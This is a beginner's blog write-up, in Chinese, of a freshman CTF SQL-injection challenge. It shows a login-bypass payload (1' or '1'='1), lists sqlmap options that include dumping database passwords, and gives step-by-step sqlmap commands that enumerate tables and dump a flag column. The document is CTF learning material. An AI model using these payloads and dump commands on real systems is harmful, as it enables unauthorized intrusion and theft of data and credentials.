






<!--yml
category: 未分类
date: 2022-04-26 14:41:58
-->

# ISCTF新生赛 Web easy_sql题解（sqlmap的基操）_Jeff_54088的博客-CSDN博客

> 来源：[https://blog.csdn.net/Jeff_12138/article/details/120942170](https://blog.csdn.net/Jeff_12138/article/details/120942170)

# 

<u>***本人小白入门，不到之处请大侠指点！！！***</u>

先观察题目的提示，（由于是新生赛，所以提示比较明显）显然是需要我们用SQLMAP进行操作。

不妨输入 用户名 1   密码 1' or '1'='1 来进行简单的测试，果然登陆上了。但是返回的是“登陆成功”并没有返回数据库中的内容，于是也可以尝试尝试sql盲注的思路。

# 一、sqlmap解法

sqlmap的基本命令：[Kali Linux 漏洞利用工具集 sqlmap 教程 - 付杰博客](https://www.fujieace.com/kali-linux/courses/sqlmap-3.html "Kali Linux 漏洞利用工具集 sqlmap 教程 - 付杰博客")

某大神的sqlmap学习笔记：[Kali Linux学习笔记—SQLMAP 自动注入_江河湖海：D的博客-CSDN博客](https://blog.csdn.net/weixin_43653897/article/details/111519201 "Kali Linux学习笔记—SQLMAP 自动注入_江河湖海：D的博客-CSDN博客")

这里列举几个常用的操作命令：

> -dbs 获取所有数据库
> 
> --current-db  当前使用的数据库
> 
> --users  所有用户
> 
> --current-user  数据库使用账户
> 
> --is-dba 当前用户权限（是否为root权限）
> 
> --passwords  数据库账户与密码
> 
> -D 数据库名 --tables  查看指定数据库的所有表
> 
> -D 数据库名 -T 表名 --columns  查看指定数据库指定表的所有字段
> 
> -D 数据库名 -T 表名 -C 字段名 -dump 查看指定字段所有的值
> 
> --random-agent 构造随机user-agent
> 
> --time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）

下面来写写这个题目，用sqlmap的解决方案（sqlmap的最最最最基础的操作）

首先看看存不存在注入点

> sqlmap -u "http://xxxx" -dbs

再看看，所连接的数据库有哪些

 进入users数据库，看看有哪些表

> sqlmap -u "http://xxxx" -D users --tables

 发现了flag表单，说明思路是正确的，继续访问

> sqlmap -u "http://xxxx" -D users -T flag --columns

找到了flag字段，继续看看字段有哪些值

> sqlmap -u "http://xxxx" -D users -T flag -C flag --dump

** 最后找到了flag！！！**

~~<u>*注：学长大佬说，本题也可以用SQL盲注的思路来解决，但是本人水平有限，还没有用这种方法解出来，日后慢慢研究！！！*</u>~~